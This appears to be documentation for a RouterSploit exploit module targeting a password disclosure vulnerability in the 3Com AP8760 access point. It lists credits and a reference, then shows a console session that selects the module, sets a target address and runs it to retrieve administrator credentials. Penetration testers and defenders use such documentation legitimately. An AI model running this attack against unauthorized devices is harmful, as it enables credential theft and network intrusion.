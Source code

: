# 3Com AP8760 Password Disclosure

## Description
Exploits 3Com AP8760 password disclosure vulnerability.If the target is vulnerable it is possible to fetch credentials for administration user.

## Authors
* Richard Brain # vulnerability discovery
* Marcin Bury <marcin.bury[at]reverse-shell.com> # routersploit module

## References
* [http://www.procheckup.com/procheckup-labs/pr07-40/](http://www.procheckup.com/procheckup-labs/pr07-40/)

## Vulnerable devices
* 3Com AP8760

## Usage
```
rsf > use exploits/3com/ap8760_password_disclosure
rsf (3Com AP8760 Password Disclosure) > show options

Target options:

   Name       Current settings     Description
   ----       ----------------     -----------
   target                          Target address e.g. http://192.168.1.1
   port       80                   Target port


rsf (3Com AP8760 Password Disclosure) > set target 192.168.1.1
[+] {'target': '192.168.1.1'}
rsf (3Com AP8760 Password Disclosure) > run
[*] Running module...
```
